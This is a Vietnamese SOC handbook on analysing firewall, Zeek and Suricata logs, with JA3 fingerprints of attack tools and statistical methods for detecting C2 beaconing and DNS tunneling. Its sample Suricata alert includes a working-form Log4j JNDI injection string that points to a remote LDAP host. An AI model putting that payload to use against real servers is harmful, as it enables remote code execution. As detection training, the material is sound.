

# Cẩm Nang Giám Sát Lưu Lượng Mạng, Tường Lửa và NIDS Cho SOC

Giám sát an ninh mạng là tuyến phòng thủ không thể bị che mắt (Network Does Not Lie). Kẻ tấn công có thể tắt nhật ký Windows, xóa dấu vết Auditd hoặc gỡ bỏ tác nhân EDR, nhưng mọi đòn tấn công di chuyển ngang (Lateral Movement), tải mã độc từ xa (Payload Ingestion) hay liên lạc máy chủ điều khiển (C2 Communication) đều bắt buộc phải phát sinh gói tin trên đường truyền mạng.



---

## 1. Phân Tích Nhật Ký Tường Lửa Thế Hệ Mới (Palo Alto và Fortinet)

### 1.1. Chiến Lược Phân Tích Quyết Định Xử Lý (Action Triage)
Chuyên viên SOC cần phân biệt rõ bản chất của hai trạng thái xử lý trên Firewall:
* **`action=drop` / `action=deny` (Bị chặn):** Đòn tấn công thăm dò từ bên ngoài Internet đã bị bộ lọc tường lửa chặn đứng ở cửa ngõ. Đây là hiện tượng bình thường (Background Internet Noise). Chỉ nâng mức ưu tiên nếu xuất phát từ IP chuyên dụng nội bộ hoặc tấn công liên tục vào dịch vụ trọng yếu.
* **`action=allow` / `action=accept` (Cho phép đi qua):** Nếu xuất hiện cảnh báo mã độc (Threat Log) hoặc lưu lượng truy cập IP độc hại mà trạng thái là `allow`, đây là **sự cố mức cao (P1/P2)**. Kẻ tấn công đã vượt qua tường lửa và tiếp cận thành công máy chủ nội bộ.

### 1.2. Săn Lùng Rò Rỉ Dữ Liệu Qua Dung Lượng Outbound (Data Exfiltration)
```bash
# Truy vấn các phiên kết nối gửi lượng dữ liệu đột biến ra ngoài Internet:
index=firewall sourcetype="pan:traffic" action=allow
| where NOT cidrmatch("10.0.0.0/8", dest_ip) AND NOT cidrmatch("192.168.0.0/16", dest_ip) AND NOT cidrmatch("172.16.0.0/12", dest_ip)
| stats sum(bytes_sent) as total_bytes_sent, sum(bytes_received) as total_bytes_rcvd by src_ip dest_ip dest_port app
| eval mb_sent = round(total_bytes_sent / 1024 / 1024, 2)
| where mb_sent > 50 AND total_bytes_sent > total_bytes_rcvd * 5
| sort - mb_sent
```

---

## 2. Cẩm Nang Bóc Tách Nhật Ký Cảm Biến Mạng Zeek NSM

Zeek (trước đây là Bro) không phát cảnh báo theo chữ ký thô sơ, mà chuyển đổi toàn bộ lưu lượng mạng thành các tệp nhật ký có cấu trúc phân tầng theo từng giao thức:

### 2.1. Phân Tích Nhật Ký Kết Nối (`conn.log`)
Tệp `conn.log` ghi lại tóm tắt của mọi phiên giao tiếp TCP/UDP/ICMP diễn ra trên mạng:

| Trường Dữ Liệu | Kiểu Dữ Liệu | Ý Nghĩa Kỹ Thuật Trong Phân Tích SOC |
| :--- | :--- | :--- |
| `id.orig_h` / `id.orig_p` | IP / Port | Địa chỉ IP và cổng của bên phát sinh kết nối ban đầu (Originator). |
| `id.resp_h` / `id.resp_p` | IP / Port | Địa chỉ IP và cổng của bên nhận và phản hồi kết nối (Responder). |
| `proto` | String | Giao thức truyền vận (`tcp`, `udp`, `icmp`). |
| `duration` | Float | Thời gian tồn tại của phiên tính theo giây. |
| `orig_bytes` / `resp_bytes` | Integer | Số lượng byte dữ liệu tầng ứng dụng (payload) thực tế được trao đổi. |
| **`conn_state`** | String | **Trạng thái kết thúc của phiên kết nối (Trọng tâm phân tích SOC).** |

* **Giải mã các cờ trạng thái `conn_state` trọng yếu:**
  * **`S0` (Connection attempt seen, no reply):** Máy nguồn gửi gói tin `SYN` nhưng không nhận được phản hồi `SYN-ACK`. Xuất hiện hàng loạt địa chỉ đích khác nhau với cờ `S0` là dấu hiệu rõ ràng của hành vi **quét cổng mạng (TCP SYN Port Scan)**.
  * **`SF` (Normal establishment and termination):** Phiên kết nối bắt tay 3 bước thành công và ngắt kết nối đúng chuẩn (gửi `FIN`).
  * **`REJ` (Connection attempt rejected):** Máy đích chủ động từ chối kết nối bằng cách gửi cờ `RST` (cổng đích đang đóng hoặc bị firewall cục bộ chặn).
  * **`RSTO` / `RSTR`:** Kết nối bị đặt lại (Reset) bởi máy nguồn (`RSTO`) hoặc máy đích (`RSTR`).

### 2.2. Phân Tích Nhật Ký Truy Vấn Tên Miền (`dns.log`)
* `query`: Tên miền được yêu cầu phân giải.
* `qtype_name`: Loại bản ghi DNS (`A`, `AAAA`, `TXT`, `CNAME`, `PTR`, `MX`).
* `rcode_name`: Mã kết quả trả về (`NOERROR` - thành công, `NXDOMAIN` - tên miền không tồn tại).
* **Dấu hiệu chỉ điểm tấn công:**
  * **Thuật toán sinh tên miền tự động (DGA):** Tỷ lệ các truy vấn trả về mã lỗi `NXDOMAIN` tăng đột biến (mã độc thử hàng trăm tên miền ngẫu nhiên để tìm máy chủ C2 đang hoạt động).
  * **Đường hầm truyền dữ liệu qua DNS (DNS Tunneling):** Tần suất yêu cầu bản ghi `TXT` cao bất thường; các subdomain có độ dài vượt quá 50 ký tự và chuỗi ký tự có độ phức tạp ngẫu nhiên cao.

### 2.3. Phân Tích Nhật Ký Mã Hóa và Nhận Dạng TLS (`ssl.log`)
* `server_name` (SNI - Server Name Indication): Tên miền máy chủ trong gói tin Client Hello (chưa mã hóa).
* `subject` / `issuer`: Thông tin đơn vị cấp phát chứng chỉ số SSL/TLS.
* **Kỹ thuật TLS Fingerprinting (JA3 / JA3S):**
  * **`ja3`:** Chuỗi hàm băm MD5 đại diện cho các thông số mật mã phía Client (TLS Version, Ciphersuites, Extensions, Elliptic Curves).
  * **Ứng dụng:** Mọi công cụ tấn công nổi tiếng đều có mã băm JA3 đặc trưng:
    * Cobalt Strike Beacon mặc định: `a0e9f5d64349fb13191bc781f81f42e1`
    * Metasploit HTTPS Payload: `72a589da586844d7f0818ce684948eea`
    * Phần mềm mã độc Emotet: `4d7a28d6f22da2d14bb8938dc77b94bf`

---

## 3. Phân Tích Cảnh Báo Hệ Thống Phát Hiện Xâm Nhập Suricata NIDS

Suricata thực hiện phân tích gói tin sâu (Deep Packet Inspection - DPI) theo thời gian thực và so khớp với hàng chục nghìn tập luật nhận diện chữ ký tấn công (Emerging Threats Ruleset).

### Cấu Trúc Bản Ghi Cảnh Báo `eve.json`
```json
{
  "timestamp": "2026-08-28T02:30:15.123456+0700",
  "event_type": "alert",
  "src_ip": "192.168.50.100",
  "src_port": 45892,
  "dest_ip": "192.168.100.20",
  "dest_port": 80,
  "proto": "TCP",
  "alert": {
    "action": "allowed",
    "gid": 1,
    "signature_id": 2010935,
    "rev": 3,
    "signature": "ET WEB_SPECIFIC_APPS Apache Log4j RCE (CVE-2021-44228)",
    "category": "Attempted Administrator Privilege Gain",
    "severity": 1
  },
  "http": {
    "hostname": "internal-portal.corp",
    "url": "/login",
    "http_user_agent": "${jndi:ldap://45.77.24.12:1389/Exploit}"
  }
}
```

### Quy Trình Đối Soát Cảnh Báo Suricata Cho SOC
1. **Kiểm tra mức độ nghiêm trọng (`severity`):** Cấp độ 1 (Critical) cần được ưu tiên điều tra trước.
2. **Kiểm tra Payload thực tế:** Đọc chuỗi `http_user_agent` hoặc `payload_printable` để xác định đòn tấn công có mang mã khai thác thật hay chỉ là chuỗi rà quét thăm dò của botnet.
3. **Đối chiếu với máy đích (`dest_ip`):** Máy chủ nhận đòn tấn công có đang chạy dịch vụ dễ bị tổn thương đó không? (Ví dụ: Alert Log4j gửi vào máy chủ chạy Nginx/PHP thì khả năng thành công là 0, xếp loại False Positive/Not Applicable).

---

## 4. Công Thức Toán Học Săn Lùng Mối Đe Dọa Mạng Nâng Cao

### 4.1. Thuật Toán Jitter Ratio: Phát Hiện Kết Nối Máy Chủ Điều Khiển C2 (Beaconing)

Phần lớn mã độc hiện đại đều sử dụng cơ chế liên lạc định kỳ (Beaconing) kèm theo một tỷ lệ biến thiên thời gian ngẫu nhiên (Jitter) nhằm tránh các bộ lọc thời gian cố định đơn giản:

Giả sử trong khoảng thời gian quan sát, có $N$ kết nối liên tiếp giữa máy trạm $A$ và máy chủ $B$. Khoảng thời gian giữa 2 kết nối liên tiếp là $\Delta t_i = t_{i} - t_{i-1}$.

* **Thời gian trễ trung bình (Mean Interval):**
  $$\mu = \frac{1}{N-1} \sum_{i=2}^{N} \Delta t_i$$

* **Độ lệch chuẩn thời gian (Standard Deviation):**
  $$\sigma = \sqrt{\frac{1}{N-1} \sum_{i=2}^{N} (\Delta t_i - \mu)^2}$$

* **Tỷ số biến thiên thời gian (Jitter Ratio):**
  $$\text{Jitter Ratio} = \frac{\sigma}{\mu}$$

> **Tiêu chuẩn phân loại thực tế:**
> * Các kết nối người dùng duyệt web thông thường có tính ngẫu nhiên rất cao: $\text{Jitter Ratio} \ge 0.60$.
> * Các tác nhân mã độc (Cobalt Strike, Havoc, Sliver, Brute Ratel) dù có bật tính năng Sleep Jitter 20% thì cấu trúc toán học vẫn duy trì: $\mathbf{\text{Jitter Ratio} \le 0.20}$.

---

### 4.2. Thuật Toán Shannon Entropy: Phát Hiện Kênh Ngầm DNS Tunneling và Tên Miền DGA

Độ hỗn loạn thông tin (Shannon Entropy) đo lường mức độ ngẫu nhiên của các ký tự xuất hiện trong một chuỗi tên miền $S$ có độ dài $n$:

$$H(S) = - \sum_{i=1}^{k} P(c_i) \log_2 P(c_i)$$

Trong đó:
* $k$ là số lượng ký tự phân biệt trong chuỗi.
* $P(c_i)$ là tần suất xuất hiện của ký tự $c_i$ trong chuỗi.

> **Tiêu chuẩn phân loại tên miền:**
> * Tên miền từ vựng tiếng Anh / tiếng Việt chuẩn (`google.com`, `vnexpress.net`, `microsoft.com`): $H(S) \le 2.8$.
> * Tên miền thuật toán DGA hoặc đường hầm nạp dữ liệu Hex/Base64 (`v4x7a9q2k8m1z0.corp-tunnel.xyz`): $\mathbf{H(S) \ge 3.8}$. Khi $H(S) \ge 3.8$ kết hợp độ dài tên miền $> 40$ ký tự, tỷ lệ phát hiện True Positive lên tới trên 95%.

